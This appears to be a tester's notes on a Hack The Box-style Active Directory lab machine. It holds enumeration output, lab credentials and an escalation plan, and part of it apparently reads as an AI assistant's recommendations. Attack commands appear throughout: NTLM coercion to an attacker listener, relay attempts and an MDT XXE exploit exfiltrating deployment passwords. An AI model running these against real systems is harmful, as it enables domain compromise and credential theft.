

# Scaffold

j.harris / Harr1sHelpdesk2026!Breach

sudo nmap -sCV 10.129.246.248
Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org/) ) at 2026-10-27 16:58 EDT
Nmap scan report for 10.129.246.248
Host is up (0.0088s latency).
Not shown: 986 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
|_http-server-header: Microsoft-IIS/10.0
|*http-title: 401 - Unauthorized: Access is denied due to invalid credentials.
| http-methods:
|*  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-10-28 03:58:22Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: scaffold.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-10-28T03:59:11+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc.scaffold.htb, DNS:scaffold.htb, DNS:SCAFFOLD
| Not valid before: 2026-09-01T23:51:52
|*Not valid after:  2106-09-01T23:51:52
443/tcp  open  ssl/http      Microsoft IIS httpd 10.0
|ssl-date: TLS randomness does not represent time
|http-server-header: Microsoft-IIS/10.0
| http-ntlm-info:
|   Target_Name: SCAFFOLD
|   NetBIOS_Domain_Name: SCAFFOLD
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: scaffold.htb
|   DNS_Computer_Name: dc.scaffold.htb
|   DNS_Tree_Name: scaffold.htb
|  Product_Version: 10.0.20348
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|   Negotiate
|  NTLM
| tls-alpn:
|*  http/1.1
| ssl-cert: Subject: commonName=portal.scaffold.htb
| Subject Alternative Name: DNS:portal.scaffold.htb, DNS:DC01
| Not valid before: 2026-05-23T12:31:56
|_Not valid after:  2029-05-23T12:41:56
|_http-title: 401 - Unauthorized: Access is denied due to invalid credentials.
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc.scaffold.htb, DNS:scaffold.htb, DNS:SCAFFOLD
| Not valid before: 2026-09-01T23:51:52
|_Not valid after:  2106-09-01T23:51:52
|_ssl-date: 2026-10-28T03:59:11+00:00; +7h00m00s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: scaffold.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc.scaffold.htb, DNS:scaffold.htb, DNS:SCAFFOLD
| Not valid before: 2026-09-01T23:51:52
|_Not valid after:  2106-09-01T23:51:52
|_ssl-date: 2026-10-28T03:59:11+00:00; +7h00m00s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: scaffold.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc.scaffold.htb, DNS:scaffold.htb, DNS:SCAFFOLD
| Not valid before: 2026-09-01T23:51:52
|_Not valid after:  2106-09-01T23:51:52
|_ssl-date: 2026-10-28T03:59:11+00:00; +7h00m00s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2026-10-28T03:59:05
|_  start_date: N/A
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s

Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
Nmap done: 1 IP address (1 host up) scanned in 55.63 seconds

dig any scaffold.htb 10.129.246.248

; <<>> DiG 9.20.18-1~deb13u1-Debian <<>> any scaffold.htb 10.129.246.248
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOTIMP, id: 58326
;; flags: qr rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 1232
; EDE: 21 (Not Supported)
;; QUESTION SECTION:
;scaffold.htb.			IN	ANY

;; Query time: 3 msec
;; SERVER: 1.1.1.1#53(1.1.1.1) (TCP)
;; WHEN: Tue Oct 27 17:03:29 EDT 2026
;; MSG SIZE  rcvd: 47

;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOTIMP, id: 9104
;; flags: qr rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 1232
; EDE: 21 (Not Supported)
;; QUESTION SECTION:
;10.129.246.248.			IN	ANY

;; Query time: 3 msec
;; SERVER: 1.1.1.1#53(1.1.1.1) (TCP)
;; WHEN: Tue Oct 27 17:03:29 EDT 2026
;; MSG SIZE  rcvd: 49

tail -n1 /etc/hosts
10.129.246.248 scaffold.htb dc.scaffold.htb

dnsrecon -d scaffold.htb -a -n 10.129.246.248
[*] std: Performing General Enumeration against: scaffold.htb...
[*] Checking for Zone Transfer for scaffold.htb name servers
[*] Resolving SOA Record
[+] 	 SOA dc.scaffold.htb 10.129.246.248
[+] 	 SOA dc.scaffold.htb dead:beef::ec3a:3c09:9e3:748
[+] 	 SOA dc.scaffold.htb dead:beef::162
[*] Resolving NS Records
[*] NS Servers found:
[+] 	 NS dc.scaffold.htb 10.129.246.248
[+] 	 NS dc.scaffold.htb dead:beef::ec3a:3c09:9e3:748
[+] 	 NS dc.scaffold.htb dead:beef::162
[*] Removing any duplicate NS server IP Addresses...
[*]
[*] Trying NS server dead:beef::ec3a:3c09:9e3:748
[-] Zone Transfer Failed for dead:beef::ec3a:3c09:9e3:748!
[-] Port 53 TCP is being filtered
[*]
[*] Trying NS server 10.129.246.248
[+] 10.129.246.248 Has port 53 TCP Open
[-] Zone Transfer Failed (Zone transfer error: REFUSED)
[*]
[*] Trying NS server dead:beef::162
[-] Zone Transfer Failed for dead:beef::162!
[-] Port 53 TCP is being filtered
[*] Checking for Zone Transfer for scaffold.htb name servers
[*] Resolving SOA Record
[+] 	 SOA dc.scaffold.htb 10.129.246.248
[+] 	 SOA dc.scaffold.htb dead:beef::ec3a:3c09:9e3:748
[+] 	 SOA dc.scaffold.htb dead:beef::162
[*] Resolving NS Records
[*] NS Servers found:
[+] 	 NS dc.scaffold.htb 10.129.246.248
[+] 	 NS dc.scaffold.htb dead:beef::ec3a:3c09:9e3:748
[+] 	 NS dc.scaffold.htb dead:beef::162
[*] Removing any duplicate NS server IP Addresses...
[*]
[*] Trying NS server dead:beef::ec3a:3c09:9e3:748
[-] Zone Transfer Failed for dead:beef::ec3a:3c09:9e3:748!
[-] Port 53 TCP is being filtered
[*]
[*] Trying NS server 10.129.246.248
[+] 10.129.246.248 Has port 53 TCP Open
[-] Zone Transfer Failed (Zone transfer error: REFUSED)
[*]
[*] Trying NS server dead:beef::162
[-] Zone Transfer Failed for dead:beef::162!
[-] Port 53 TCP is being filtered
[-] DNSSEC is not configured for scaffold.htb
[*] 	 SOA dc.scaffold.htb 10.129.246.248
[*] 	 SOA dc.scaffold.htb dead:beef::ec3a:3c09:9e3:748
[*] 	 SOA dc.scaffold.htb dead:beef::162
[*] 	 NS dc.scaffold.htb 10.129.246.248
[*] 	 NS dc.scaffold.htb dead:beef::ec3a:3c09:9e3:748
[*] 	 NS dc.scaffold.htb dead:beef::162
[*] 	 A scaffold.htb 10.129.246.248
[*] 	 AAAA scaffold.htb dead:beef::ec3a:3c09:9e3:748
[*] 	 AAAA scaffold.htb dead:beef::162
[*] 	 AAAA scaffold.htb dead:beef::137
[*] 	 AAAA scaffold.htb dead:beef::b4bf:4d8e:96cc:88ab
[*] Enumerating SRV Records
[+] 	 SRV _kerberos._tcp.scaffold.htb dc.scaffold.htb 10.129.246.248 88
[+] 	 SRV _kerberos._tcp.scaffold.htb dc.scaffold.htb dead:beef::162 88
[+] 	 SRV _kerberos._tcp.scaffold.htb dc.scaffold.htb dead:beef::ec3a:3c09:9e3:748 88
[+] 	 SRV _ldap._tcp.scaffold.htb dc.scaffold.htb 10.129.246.248 389
[+] 	 SRV _ldap._tcp.scaffold.htb dc.scaffold.htb dead:beef::ec3a:3c09:9e3:748 389
[+] 	 SRV _ldap._tcp.scaffold.htb dc.scaffold.htb dead:beef::162 389
[+] 	 SRV _kerberos._udp.scaffold.htb dc.scaffold.htb 10.129.246.248 88
[+] 	 SRV _kerberos._udp.scaffold.htb dc.scaffold.htb dead:beef::162 88
[+] 	 SRV _kerberos._udp.scaffold.htb dc.scaffold.htb dead:beef::ec3a:3c09:9e3:748 88
[+] 	 SRV _gc._tcp.scaffold.htb dc.scaffold.htb 10.129.246.248 3268
[+] 	 SRV _gc._tcp.scaffold.htb dc.scaffold.htb dead:beef::ec3a:3c09:9e3:748 3268
[+] 	 SRV _gc._tcp.scaffold.htb dc.scaffold.htb dead:beef::162 3268
[+] 	 SRV _ldap._tcp.ForestDNSZones.scaffold.htb dc.scaffold.htb 10.129.246.248 389
[+] 	 SRV _ldap._tcp.ForestDNSZones.scaffold.htb dc.scaffold.htb dead:beef::ec3a:3c09:9e3:748 389
[+] 	 SRV _ldap._tcp.ForestDNSZones.scaffold.htb dc.scaffold.htb dead:beef::162 389
[+] 	 SRV _ldap._tcp.pdc._msdcs.scaffold.htb dc.scaffold.htb 10.129.246.248 389
[+] 	 SRV _ldap._tcp.pdc._msdcs.scaffold.htb dc.scaffold.htb dead:beef::162 389
[+] 	 SRV _ldap._tcp.pdc._msdcs.scaffold.htb dc.scaffold.htb dead:beef::ec3a:3c09:9e3:748 389
[+] 	 SRV _ldap._tcp.dc._msdcs.scaffold.htb dc.scaffold.htb 10.129.246.248 389
[+] 	 SRV _ldap._tcp.dc._msdcs.scaffold.htb dc.scaffold.htb dead:beef::ec3a:3c09:9e3:748 389
[+] 	 SRV _ldap._tcp.dc._msdcs.scaffold.htb dc.scaffold.htb dead:beef::162 389
[+] 	 SRV _ldap._tcp.gc._msdcs.scaffold.htb dc.scaffold.htb 10.129.246.248 3268
[+] 	 SRV _ldap._tcp.gc._msdcs.scaffold.htb dc.scaffold.htb dead:beef::162 3268
[+] 	 SRV _ldap._tcp.gc._msdcs.scaffold.htb dc.scaffold.htb dead:beef::ec3a:3c09:9e3:748 3268
[+] 	 SRV _kerberos._tcp.dc._msdcs.scaffold.htb dc.scaffold.htb 10.129.246.248 88
[+] 	 SRV _kerberos._tcp.dc._msdcs.scaffold.htb dc.scaffold.htb dead:beef::ec3a:3c09:9e3:748 88
[+] 	 SRV _kerberos._tcp.dc._msdcs.scaffold.htb dc.scaffold.htb dead:beef::162 88
[+] 	 SRV _kpasswd._tcp.scaffold.htb dc.scaffold.htb 10.129.246.248 464
[+] 	 SRV _kpasswd._tcp.scaffold.htb dc.scaffold.htb dead:beef::162 464
[+] 	 SRV _kpasswd._tcp.scaffold.htb dc.scaffold.htb dead:beef::ec3a:3c09:9e3:748 464
[+] 	 SRV _kpasswd._udp.scaffold.htb dc.scaffold.htb 10.129.246.248 464
[+] 	 SRV _kpasswd._udp.scaffold.htb dc.scaffold.htb dead:beef::ec3a:3c09:9e3:748 464
[+] 	 SRV _kpasswd._udp.scaffold.htb dc.scaffold.htb dead:beef::162 464

cme smb scaffold.htb -u 'j.harris' -p 'Harr1sHelpdesk2026!Breach' --shares
SMB         10.129.246.248  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:scaffold.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.246.248  445    DC               [+] scaffold.htb\j.harris:Harr1sHelpdesk2026!Breach
SMB         10.129.246.248  445    DC               [*] Enumerated shares
SMB         10.129.246.248  445    DC               Share           Permissions     Remark
SMB         10.129.246.248  445    DC               -----           -----------     ------
SMB         10.129.246.248  445    DC               ADMIN$                          Remote Admin
SMB         10.129.246.248  445    DC               C$                              Default share
SMB         10.129.246.248  445    DC               DeploymentShare$                 MDT Deployment Share
SMB         10.129.246.248  445    DC               IPC$            READ            Remote IPC
SMB         10.129.246.248  445    DC               NETLOGON        READ            Logon server share
SMB         10.129.246.248  445    DC               REMINST         READ            Windows Deployment Services Share
SMB         10.129.246.248  445    DC               SYSVOL          READ            Logon server share
SMB         10.129.246.248  445    DC               Y$                              Default share

cme smb scaffold.htb -u 'j.harris' -p 'Harr1sHelpdesk2026!Breach' --shares -M spider_plus -o DOWNLOAD_FLAG=true

nxc ldap dc.scaffold.htb -u j.harris -p 'Harr1sHelpdesk2026!Breach' --users

cat users.txt
svc_mdt
m.carter
svc_deploy
t.nguyen
j.harris

r.wilson
k.patel
d.cooper
m.chen
t.walker
o.bennett
svc_mdtmonitor

python3 [bloodhound.py](http://bloodhound.py/) -d scaffold.htb -ns 10.129.246.248  -u j.harris -p 'Harr1sHelpdesk2026!Breach' --ns 10.129.246.248 -c all --zip
m.carter:’BlueSkyTempReset2026!’

r.wilson ──AddSelf──▶ HELPDESK OPERATOR ──GenericWrite──▶ m.carter (DISABLED)
│ member of
▼
IT ──AddSelf──▶
ENDPOINT REMOTE MANAGEMENT

```
   (likely WinRM access)
```

Supporting facts from the graph:

- j.harris ∈ HELPDESK, and HELPDESK controls nothing via ACLs — no AS-REP, no
Kerberoast, no gMSA. So your current creds don't have a direct ACL edge.
- HELPDESK OPERATOR (empty group) has GenericWrite over m.carter → whoever
lands in it can reset/re-enable m.carter and use BlueSkyTempReset2026!.
- r.wilson can AddSelf to HELPDESK OPERATOR — so r.wilson is the key pivot
into that group.
- m.carter ∈ IT, and IT can AddSelf to ENDPOINT REMOTE MANAGEMENT — the likely
foothold (remote mgmt/WinRM).
- ACCOUNT OPERATORS has GenericAll over almost everything but is empty
(admin-only to join).
- Theme groups: DEPLOYMENT_ADMINS (o.bennett, administrator), DEPLOY_OPERATORS
(svc_deploy), PACKAGE_DEVELOPERS/VALIDATORS, PACKAGES-QA.

The one missing link: j.harris → r.wilson

Nothing in AD gets you from j.harris to r.wilson directly. That bridge almost
certainly comes from data, not ACLs — and the two untapped, j.harris-level
sources are:

1. REMINST\WdsClientUnattend\<unknown>.xml — reads are allowed (returned
NAME_NOT_FOUND, not access-denied); we just need the filename. WDS/MDT
client-unattend files carry a domain-join account + base64 password
(plausibly svc_deploy/r.wilson).
2. DeploymentShare$ (MDT) — holds Bootstrap.ini/CustomSettings.ini with
cleartext deploy creds, but it's ACCESS_DENIED to j.harris — reachable only
after the first hop.

Recommended next step

Chase the WDS client-unattend file, since it's readable at your current
privilege. I'd run a focused filename sweep against WdsClientUnattend\
(MDT/WDS defaults like Unattend_x64.xml, LiteTouchPE_x64.xml,
WDSClientUnattend.xml, arch variants) and, in parallel, pull the Mgmt\ subtree
and re-test boot.wim locations.

certipy-ad find -u j.harris@scaffold.htb -p 'Harr1sHelpdesk2026!Breach' \
-dc-ip 10.129.246.248 -vulnerable -stdout

CA: scaffold-DC-CA @ dc.scaffold.htb
Web Enrollment HTTPS: Enabled, Channel Binding (EPA): Disabled
Enroll rights: SCAFFOLD.HTB\Authenticated Users   ← j.harris qualifies
[!] ESC8: Web Enrollment over HTTPS with channel binding disabled

openssl s_client -connect 10.129.246.248:443 </dev/null 2>/dev/null | openssl
x509 -noout -ext subjectAltName

echo "10.129.246.248 portal.scaffold.htb" | sudo tee -a /etc/hosts



sudo nmap -p- -T5 10.129.246.248
Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org/) ) at 2026-10-27 19:24 EDT
Nmap scan report for scaffold.htb (10.129.246.248)
Host is up (0.0074s latency).
Not shown: 65503 closed tcp ports (reset)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
443/tcp   open  https
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5040/tcp  open  unknown
5985/tcp  open  wsman
9389/tcp  open  adws
9800/tcp  open  davsrc
9801/tcp  open  sstp-2
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
52951/tcp open  unknown
53237/tcp open  unknown
53238/tcp open  unknown
53262/tcp open  unknown
53270/tcp open  unknown
53742/tcp open  unknown
56706/tcp open  unknown
56722/tcp open  unknown

# Scaffold.htb — Engagement Context / Handoff

**Target:** `scaffold.htb` = `10.129.246.248` (DNS name `dc.scaffold.htb`, NetBIOS `DC`)
**OS:** Windows Server 2022 (Build 20348), **single DC** (only one computer in the domain)
**Domain SID:** `S-1-5-21-365932789-2848835602-3476675013`**Attacker (tun0):** `10.10.14.80`  | Platform: Parrot
**Loot dir:** `/home/ronking37/loot` (bloodhound in `loot/bh`, sysvol in `loot/sysvol`, etc.)
**Clock:** DC is +7h ahead. Kerberos/PKINIT needs sync: `sudo ntpdate 10.129.246.248`

---

## ⚠️ Current status: STUCK on the first hop

We start with valid low-priv creds (**j.harris**) but have **not** found any way off j.harris to a
privileged account. Every escalation routes through reaching **d.cooper / t.walker** (package devs),
**svc_deploy** (Identity_Operations), or **r.wilson** — and none is reachable yet.

---

## Credentials

| User | Password | State |
| --- | --- | --- |
| `j.harris` | `Harr1sHelpdesk2026!Breach` | VALID — starting creds, member of HELPDESK only |
| `m.carter` | `BlueSkyTempReset2026!` | password VALID but account **DISABLED** + **Quarantined_Accounts** (deny network logon). From m.carter's LDAP `description`. Effectively unusable. |

Account **lockout is DISABLED** (`LockoutBadCount=0` in Default Domain Policy) → password spraying is SAFE
(but the two known passwords are custom/generated, so no obvious spray wordlist yet).

---

## Ports

`53,80,88,135,139,389,443,445,464,593,636,3268,3269,5040,5985,9389(ADWS),9800,9801,47001` + dynamic RPC

- **80** IIS → `401` with **no WWW-Authenticate** (can't negotiate auth; locked)
- **443** IIS → hosts BOTH `portal.scaffold.htb` (MSI portal) and `/certsrv` (ADCS web enroll)
- **9800/9801** MDT Monitoring (9800 up; `/MDTMonitorData` = **503** dead)
- **5985 / 47001** WinRM

`/etc/hosts`: `10.129.246.248 scaffold.htb dc.scaffold.htb portal.scaffold.htb`

---

## Users (16) & key RIDs

administrator(500), guest(501), krbtgt(502), svc_mdt(1109), m.carter(1110), svc_deploy(1111),
t.nguyen(1112), **j.harris(1113)**, r.wilson(1117), k.patel(5102), d.cooper(6101), m.chen(6102),
t.walker(6103), o.bennett(6104), svc_mdtmonitor(15601)

No SPNs (no Kerberoast), no AS-REP (no preauth-disabled), no gMSA, no LAPS.

## Groups & memberships

```
HELPDESK                 <- j.harris                      (controls nothing)
Helpdesk operator (1114) <- (empty)  ; GenericWrite over m.carter ; r.wilson can AddSelf
IT                       <- m.carter ; IT can AddSelf -> Endpoint Remote Management
Endpoint Remote Mgmt     <- (empty)                       (WinRM-ish)
Package_Developers       <- d.cooper, t.walker            (portal upload)
Package_Validators       <- m.chen                        (portal approve)
Packages-QA              <- k.patel
Deploy_Operators         <- svc_deploy
Deployment_Admins        <- o.bennett, administrator
Remote Management Users  <- d.cooper
DC PSRemoteUsers         <- d.cooper                       (WinRM to the DC)
Identity_Operations(1116)<- svc_deploy    *** HIDDEN from LDAP (SAMR only) ***
Quarantined_Accounts(1115)<- m.carter     *** HIDDEN *** ; denied network logon by GPO
```

## ACL / BloodHound edges

```
r.wilson --AddSelf--> Helpdesk operator --GenericWrite--> m.carter
m.carter (in IT) --AddSelf--> Endpoint Remote Management
```

- **j.harris has NO usable rights over anyone.** The only ACE naming j.harris on
d.cooper/r.wilson/svc_deploy/t.walker is an **inherited ACCESS_DENIED (FullControl)** — a DENY, not GenericAll.
Confirmed: `net rpc password` and `certipy shadow` both → Access Denied.
- No DCSync rights, no Kerberoast, no AS-REP, no gMSA, no shadow-cred edge usable.

### ⚠️ Tooling lesson

`nxc -M daclread` does NOT clearly distinguish ALLOW vs DENY ACEs → I misread a DENY as GenericAll once.
**Use `dacledit.py` for ground truth** (it prints `ACCESS_ALLOWED_ACE` / `ACCESS_DENIED_ACE` + flags).
BloodHound collection is INCOMPLETE here — j.harris has restricted LDAP visibility, so it missed
`Identity_Operations`, `Quarantined_Accounts`, and most OUs. Enumerate with `ldapsearch` + `impacket-lookupsid` (RID cycling) + `dacledit.py`.

## GPO / OU notes

- GPO **"Network Logon Restrictions"** = `SeDenyNetworkLogonRight` to `Quarantined_Accounts` (m.carter).
→ even if re-enabled, m.carter cannot WinRM/SMB. The r.wilson→Helpdesk-operator→m.carter chain
likely leads to a **dead-end/trap**; **d.cooper is the real WinRM target**.
- OU tree: `OU=Scaffold` → Users, Helpdesk, IT, Packaging_Team(→ **Dev_Machines = EMPTY**), Deploy_Operator, ManagedObjects.
- Only ONE computer object (the DC). **MachineAccountQuota = 0** (can't add a machine account).

---

## SMB shares (as j.harris)

Readable: `IPC$`, `NETLOGON`(empty), `SYSVOL`(default policies only — no GPP/cpassword), `REMINST`(read).
Denied: `DeploymentShare$` (even direct file reads → MDT Bootstrap.ini/CustomSettings.ini unreachable),
`Y$`, `ADMIN$`, `C$`.

### REMINST contents (all inert / gated)

- `Images/` **empty** → no boot/install WIM → NO embedded `Bootstrap.ini` (classic MDT loot absent)
- `Boot/`,`Tmp/` → PXE stubs + BCD stores; BCDs reference only boot binaries (no WIM/share/unattend paths)
- `Stores/` → `WDSMD.mdb`, `DdpDb.mdb` (8MB) **LOCKED** (sharing violation, held by WDS service); reserve logs zero-filled
- `Templates/WdsSysprepTemplate.inf` → generic placeholder
- `Mgmt/` → listing ACCESS_DENIED; common direct filenames all missed
- `WdsClientUnattend/` → listing DENIED but **reads-by-name ALLOWED**; file exists but name unknown
(brute of ~20k generic + ~2.4k thematic names FAILED). `WDSMD.mdb` would name it but is locked.

---

## Portal — [https://portal.scaffold.htb](https://portal.scaffold.htb/) ("Scaffold MSI Portal", [ASP.NET](http://asp.net/) MVC, NTLM auth)

Authenticates as j.harris (NTLM/Negotiate — use `curl --ntlm -u 'scaffold.htb\j.harris:...'`, or Burp
Platform Auth for ffuf/sqlmap; **sqlmap native NTLM is broken**, proxy through Burp).

- j.harris CAN view: `/` (dashboard), `/Package` (list, empty for j.harris), `/Home`
- **403 role-gated:** `/Package/Details/{1-8}`, `/Package/Upload`, `/Deployment`, `/Audit` (Details 9+ =404)
- Tested & negative: IDOR (all Details 403), auth-bypass (verb tampering, path tricks, X-Original-URL/X-Rewrite-URL),
SQLi (`search` param parameterized; `status` is an enum), XSS (Razor HTML-encodes), static/config disclosure
(`web.config`/`appsettings`/etc all blocked), POST (`/Package` 400, `/Package/Upload` 403 on GET+POST)
- **Workflow:** Package_Developers (d.cooper/t.walker) **upload MSI** → signature validation →
Package_Validators (m.chen) approve/reject → Deploying → Deployed
- **VULN (for later):** validation is **Authenticode-signature based** — audit log shows a package
*approved* despite *"SHA-256 hash differs"*. So a validly-**signed malicious MSI** passes validation.
Requires **upload rights (a package-dev account)** which we don't have.

---

## ADCS (CA = `scaffold-DC-CA` @ dc.scaffold.htb ; Enroll = Authenticated Users)

- **ESC8 present:** Web Enrollment HTTPS **Enabled**, **EPA disabled**. `/certsrv` on **HTTPS/443 = 401** (exists); HTTP/80 = 404.
- **ESC8 EXPLOIT TRIED → FAILS:** relay (`certipy relay` AND `ntlmrelayx`) catches coerced **DC$**, but relaying
DC$ → the CA (which is **on the same DC**) = **NTLM reflection/loopback → 401 FAILED**. Single-host topology.
**MAQ=0** so can't introduce a 2nd machine account to relay. → ESC8 is a dead end from here.
- **Coercion WORKS** (for future, when a non-CA machine exists): DC vulnerable to DFSCoerce / PetitPotam /
PrinterBug / MSEven via `nxc smb <dc> -u j.harris -p '...' -M coerce_plus -o LISTENER=10.10.14.80 METHOD=DFSCoerce`
- **Templates:**
    - `PackagingCodeSigning` — Code Signing EKU, EnrolleeSuppliesSubject, **enroll = Domain Computers** → sign MSIs for the portal
    - `InternalCodeSigning` — **Client Auth + Code Signing** EKU, ESS=False, enroll likely Domain Computers
    - Both need a **machine account** (none available to j.harris).
- **ADCS is a POST-foothold weapon:** once on any Domain Computers member → `PackagingCodeSigning` cert →
sign malicious MSI → portal approves/deploys → RCE. (Ties the whole box together.)

### Pwnbox/relay gotchas

- **Do NOT bind port 80** (kills the Pwnbox connection). `certipy relay -interface 10.10.14.80` ;
`ntlmrelayx --no-http-server`.
- `ntlmrelayx` in background needs stdin held open: `sudo bash -c 'tail -f /dev/null | ntlmrelayx.py ...'`

---

## Confirmed DEAD ENDS

SYSVOL GPP · Kerberoast · AS-REP · gMSA · LAPS · DCSync · portal SQLi/XSS/IDOR/auth-bypass/file-disclosure ·
port 80 · MDT data service (503) · DeploymentShare$ · WdsClientUnattend filename brute · ESC8 (reflection) ·
shadow-cred / password-reset on d.cooper (DENY ACE) · MachineAccountQuota (0) · REMINST (no readable creds)

## OPEN THREADS / ideas to try next

1. **Find the first hop off j.harris** — still unsolved. Need a cred for a package-dev, svc_deploy, or r.wilson.
2. [**dacledit.py](http://dacledit.py/) full ALLOW-edge sweep** for the **Helpdesk group** SID (not just j.harris) across r.wilson,
svc_deploy, d.cooper, t.walker, and the key groups — I only confirmed DENY on those *user* targets as j.harris.
3. `Identity_Operations` (contains svc_deploy) almost certainly has hidden reset/control rights over the
packaging users — can't read that DACL as j.harris; confirm once svc_deploy is owned.
4. Password spray is lockout-safe — but need a plausible wordlist/target (passwords look generated).
5. Locked `WDSMD.mdb` would name the `WdsClientUnattend` file (likely domain-join creds) — needs higher priv / VSS.
6. Unread/unfinished: `InternalCodeSigning` exact enrollment rights; `Mgmt\` contents; the WdsClientUnattend filename.
7. Re-examine the portal once a package-dev is obtained → sign MSI (via PackagingCodeSigning) → deploy → RCE.

## Handy command snippets

```bash
U='scaffold.htb\j.harris'; Uu='j.harris'; P='Harr1sHelpdesk2026!Breach'; DC=10.129.246.248
# SMB shares / files
smbclient //$DC/REMINST -U "$U%$P" -m SMB3 -c 'recurse ON; ls'
# Portal (NTLM)
curl -sk --ntlm -u "$U:$P" <https://portal.scaffold.htb/Package> -o out.html
# LDAP (bypasses bloodhound gaps)
ldapsearch -x -o ldif-wrap=no -H ldap://$DC -D "$Uu@scaffold.htb" -w "$P" -b "DC=scaffold,DC=htb" "<filter>"
impacket-lookupsid "scaffold.htb/$Uu:$P"@$DC            # RID cycling
dacledit.py -action read -principal <who> -target <obj> "scaffold.htb/$Uu:$P" -dc-ip $DC
net rpc group members "Identity_Operations" -U "scaffold.htb/$Uu%$P" -S $DC   # SAMR (sees hidden groups)
# ADCS
certipy-ad find -u $Uu@scaffold.htb -p "$P" -dc-ip $DC -vulnerable -stdout
```

port 9800 and 9801 vulnerable to https://github.com/manbahadurthapa1248/MDT-XXE-exploit

python3 [exploit.py](http://exploit.py/) --target scaffold.htb --attacker 10.10.14.80 --file "Y:\DeploymentShare\Control\Bootstrap.ini" --dtd-port 8100 --exfil-port 9100
[INFO] Server listening on port 8100
[INFO] Server listening on port 9100
[INFO] Event created with GUID: b4366ed8-a4d8-4f4e-b8db-32b8aecdd63e
[INFO] Computer record ID: 39365
[INFO] Payload injected successfully (status 204)
[INFO] Served evil.dtd to 10.129.246.248
[INFO] === EXFILTRATED DATA ===
[Settings]
Priority=Default

[Default]
DeployRoot=\\DC\DeploymentShare$
UserID=svc_mdt
UserPassword=RubiksCubeTwice2026!
UserDomain=scaffold.htb
SkipBDDWelcome=YES

python3 [exploit.py](http://exploit.py/) --target scaffold.htb --attacker 10.10.14.80 --file "Y:/DeploymentShare/Control/CustomSettings.ini" --dtd-port 8100 --exfil-port 9100
[INFO] Server listening on port 8100
[INFO] Server listening on port 9100
[INFO] Event created with GUID: 2dd7873f-7528-46bd-9139-d58a74d68480
[INFO] Computer record ID: 39366
[INFO] Payload injected successfully (status 204)
[INFO] Served evil.dtd to 10.129.246.248
[INFO] === EXFILTRATED DATA ===
[Settings]
Priority=Default
Properties=MyCustomProperty

[Default]
OSInstall=Y

DeployRoot=\\DC\DeploymentShare$
UserID=svc_deploy
UserPassword=DeployPipe2026$Secure
UserDomain=scaffold.htb

JoinDomain=scaffold.htb
DomainAdmin=svc_deploy
DomainAdminPassword=Depl0yPipe2026$Secure
MachineObjectOU=OU=Workstations,OU=Computers,DC=scaffold,DC=htb

